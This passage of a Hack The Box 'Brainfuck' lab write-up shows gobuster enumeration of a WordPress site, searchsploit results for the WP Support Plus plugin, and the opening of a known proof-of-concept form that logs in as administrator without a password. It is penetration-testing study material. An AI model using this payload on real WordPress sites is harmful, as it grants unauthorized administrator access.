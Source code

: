 ```bash
2021/08/18 09:01:21 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 301) [Size: 0] [--> https://brainfuck.htb/]
/wp-content           (Status: 301) [Size: 194] [--> https://brainfuck.htb/wp-content/]
/wp-login.php         (Status: 200) [Size: 2244]                                       
/license.txt          (Status: 200) [Size: 19935]                                      
/wp-includes          (Status: 301) [Size: 194] [--> https://brainfuck.htb/wp-includes/]
/readme.html          (Status: 200) [Size: 7433]                                        
Progress: 26155 / 1102805 (2.37%)                                                      [ERROR] 2021/08/18 09:04:24 [!] Get "https://brainfuck.htb/wp-trackback.php": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/wp-admin             (Status: 301) [Size: 194] [--> https://brainfuck.htb/wp-admin/]   
Progress: 86270 / 1102805 (7.82%)                                                      [ERROR] 2021/08/18 09:11:23 [!] Get "https://brainfuck.htb/xmlrpc.php": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/wp-signup.php        (Status: 302) [Size: 0] [--> https://brainfuck.htb/wp-login.php?action=register]
```

But this does not help much. Wpscan could not bruteforce any passwords.

# Exploitation

---

I use the wordpress plugin exploit found above:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/brainfuck]
└─$ searchsploit WP Support Plus Responsive Ticket System
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
WordPress Plugin WP Support Plus Responsive Ticket System 2.0 - Multiple Vulnerabil | php/webapps/34589.txt
WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - Privilege Escalat | php/webapps/41006.txt
WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - SQL Injection     | php/webapps/40939.txt
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
                                                                                                                      
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/brainfuck]
└─$ searchsploit -m php/webapps/41006.txt                
  Exploit: WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - Privilege Escalation
      URL: https://www.exploit-db.com/exploits/41006
     Path: /usr/share/exploitdb/exploits/php/webapps/41006.txt
File Type: ASCII text, with CRLF line terminators

Copied to: /hackthebox/oscp-prep/brainfuck/41006.txt
                                                                                                                      
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/brainfuck]
└─$ cat 41006.txt        
---[snip]---
2. Proof of Concept

<form method="post" action="http://wp/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="administrator">
        <input type="hidden" name="email" value="sth">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
```